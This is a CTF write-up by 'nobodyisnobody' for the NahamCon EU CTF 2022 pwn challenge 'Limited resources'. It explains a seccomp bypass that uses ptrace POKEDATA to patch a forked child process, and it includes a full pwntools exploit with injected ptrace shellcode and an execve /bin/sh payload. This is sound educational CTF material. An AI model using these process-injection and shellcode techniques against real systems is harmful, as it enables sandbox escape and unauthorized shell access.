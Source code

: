 ## Limited resources

was a pwn challenge from NahamCon EU CTF 2022.<br>

a relatively hard challenge, it only had 5 solves at the end of the ctf.<br>

the program has no PIE and only partial RELRO as you can see:<br>

![](./pics/checksec.png)

when we launch it the program, after a small setup, immediatly fork,

the child process is an endless loop that does almost nothing as you can see in the reversed C code:

```c
{
    buffer = (char *)malloc(0x100uLL);
    while ( 1 )
    {
      strcpy(test_buffer, "Hello world!\n");
      if ( !strncmp(test_buffer, "Give me the flag!", 0x11uLL) )
        printf("I will not give you the flag!");
      cmp = strncmp(test_buffer, "exit", 4uLL);
      if ( !cmp )
        break;
      sleep(0x3E8u);
    }
  }
```

the child copy a string to a buffer on stack, then check if this buffer contains another string, in this case display a message, or exit..then sleep 1000 seconds, and loop indefinitely...<br>

pretty useless code as you can see..<br>

the parent process is more interesting, it displays this menu:<br>

```
Enter the command you want to do:
1) Create Memory
2) Get Debug Informationn
3) Execute Code
4) Exit
```

the option 1,  allocate a memory of the wanted size with mmap, then you can choose its permissions, and copy the data you want in it..(it will be a shellcode off course...)<br>

the option 2,  return the pid of the child.<br>

the option 3, will permit you to execute any function at any address, and before jumping to this code will setup a seccomp that looks like this: <br>

![](./pics/seccomp.png)

it will allows these listed syscalls, and forbid any others..<br>

so no `open`, `read`, `write`, no `execve`...<br>

pretty limited..but not so much...<br>

### the exploitation

well the way I exploit it (and it seems it is the intended way), is to trace the child with the parent with ptrace syscall (that is allowed)<br>

we attach to the child, than we use ptrace POKEDATA function to modify it's code, and patch the program memory of child.<br>

as the program as no PIE, we know where are the child instructions in memory.<br>

if you look at child code disassembly, you can see that the end of his loop, the `sleep()` calls, is followed by a `jmp` instruction that will go to the start of the loop.<br>

![](./pics/ida1.png)

so we can patch this `jmp` instruction with `nop` instructions to remove it.<br>

and when child will awake from `sleep()` call, it will goes in parent menu loop, instead of restarting his meaningless loop...

we will patch also the call to `ProtectProgram()` that setup the seccomp in the child code..<br>

like this, when the child will awake from sleep(), we will make it execute a simple `execve` shellcode, and we will get an unrestricted shell<br>

I added a patched binary `limited_resources_patched` in my github for the local tests, to have a small sleep() of only 10 seconds..<br>

![](./pics/gotflag.gif)

### alternative exploitation ideas

I first started by editing a GOT entry from child's used functions (and it could work too), but in fact with PTRACE_POKEDATA you can also write in Read-Only memory zone.. so finally I just patched the code, it was quicker<br>

for example, you could replace a GOT entry from `strncmp` or `sleep` , one of the functions used by child, by a onegadget for example..<br>

or even simpler you can write your shellcode directly after the sleep() calls in child, and it will be executed straight forward...<br>

many ways to exploit it so...<br>

### exploit

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'info'

# shortcuts
def logbase(): log.info("libc base = %#x" % libc.address)
def logleak(name, val):  log.info(name+" = %#x" % val)
def sa(delim,data): return p.sendafter(delim,data)
def sla(delim,line): return p.sendlineafter(delim,line)
def sl(line): return p.sendline(line)
def rcu(d1, d2=0):
  p.recvuntil(d1, drop=True)
  # return data between d1 and d2
  if (d2):
    return p.recvuntil(d2,drop=True)

# patched binary version with shorter sleep
exe = ELF('./limited_resources_patched')

host, port = "challenge.nahamcon.com", "32422"

if args.REMOTE:
  p = remote(host,port)
else:
  p = process(exe.path)

sla('Exit\n','2')
pid = int(rcu('PID = ','\n'),10)
logleak('pid',pid)

shellc = asm('''
looping:

  mov ebp,%d		/* ebp = pid of child */
// ptrace(PTRACE_ATTACH,child,0,0)
  mov edi,0x10
  mov esi,ebp
  xor edx,edx
  xor r10,r10
  mov eax,101
  syscall

// wait a bit
  mov rcx,0xffffffff
wait:
  nop
  nop
  loop wait

/* patch program to remove jmp after call to sleep() */
/* ptrace(PTRACE_POKEDATA,chid, addr, data */
  mov edi,5
  mov esi,ebp
  mov edx,0x4018df
  mov r10,0xE800402090bf9090
  mov eax,101
  syscall

/* patch program to remove call to protectprogram() */
/* ptrace(PTRACE_POKEDATA,chid, addr, data */
  mov edi,5
  mov esi,ebp
  mov edx,0x401aa9
  mov r10,0x9090909090000000
  mov eax,101
  syscall

// ptrace(PTRACE_DETACH,child,0,0
  mov edi,0x11
  mov esi,ebp
  xor edx,edx
  xor r10,r10
  mov eax,101
  syscall


loopit:
 jmp loopit

format:
  .ascii "result = %%llx"
  .byte 10

''' % pid)

# create a RWX mem zone
sla('Exit\n','1')
sla('be?\n', '140000')
sla('y?\n', '7')
sla('de?\n', shellc)
# leak buffer address
buffer = int(rcu('at ', '\n'),16)
logleak('buffer at', buffer)

sla('Exit\n','3')
sla('code?\n', hex(buffer))

shellc2 = asm('''
	xor esi, esi
	push rsi
	mov rbx, 0x68732f2f6e69622f
	push rbx
	push rsp
	pop rdi
	imul esi
	mov al, 0x3b
	syscall
  ''')

# now the client is in menu loop
# but without call to seccomp before execute
sla('Exit\n','1')
sla('be?\n', '4096')
sla('y?\n', '7')
sla('de?\n', shellc2)

# send execve shellcode to client
shellc2_addr = int(rcu('at ', '\n'),16)
logleak('shellcode at', shellc2_addr)

sla('Exit\n','3')
sla('code?\n', hex(shellc2_addr))

# got flag
p.sendline('id;cat flag*')

p.interactive()
```

*nobodyisnobody still on the pwning side of life..*
